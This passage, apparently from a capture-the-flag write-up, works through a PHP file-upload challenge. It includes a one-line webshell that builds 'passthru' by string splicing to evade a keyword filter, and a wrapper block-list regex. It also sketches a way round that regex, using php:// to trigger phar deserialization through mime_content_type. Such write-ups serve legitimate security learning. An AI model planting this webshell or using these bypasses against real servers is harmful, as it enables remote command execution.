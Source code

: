 It is easy to bypass this by string splicing:

```php
<?php
$a = "pass";
$b = "thru";
$c = $a.$b;
$d = @$c($_REQUEST[a]);
```

However, there is a `.htaccess` in the upload directory which prevents our uploaded php files from being parsed, and this `.htaccess` file is generated every time we login:

```php
function __construct($filename, $file_tmp, $size) {
    $this->upload_dir = 'sandbox/'.md5($_SERVER['REMOTE_ADDR']);
    if (!file_exists($this->upload_dir)){
        mkdir($this->upload_dir, 0777, true);
    }
    if (!is_file($this->upload_dir.'/.htaccess')){
        file_put_contents($this->upload_dir.'/.htaccess', 'lolololol, i control all');
    }
    ...
}
public function upload_file() {
    ...
    move_uploaded_file($this->file_tmp, $this->upload_dir.'/'.md5($this->filename).'.'.$ext);
}
```

There appears no way to bypass..

4.After uploading the file we can view the mime of the file by clicking on view detail, in `view.php`:

```php
// view.php
$res = $file->view_detail();
$mine = $res['mine'];

// config.php
class File {
    public function view_detail() {
        if (preg_match('/^(phar|compress|compose.zlib|zip|rar|file|ftp|zlib|data|glob|ssh|expect)/i', $this->filepath)) {
            die("nonono~");
        }
        $mine = mime_content_type($this->filepath);
        ...
    }
}
```

It looks like phar unserialize here, as the `mime_content_type` function can be used to trigger. Although phar is filtered, `php://` can do the same thing.
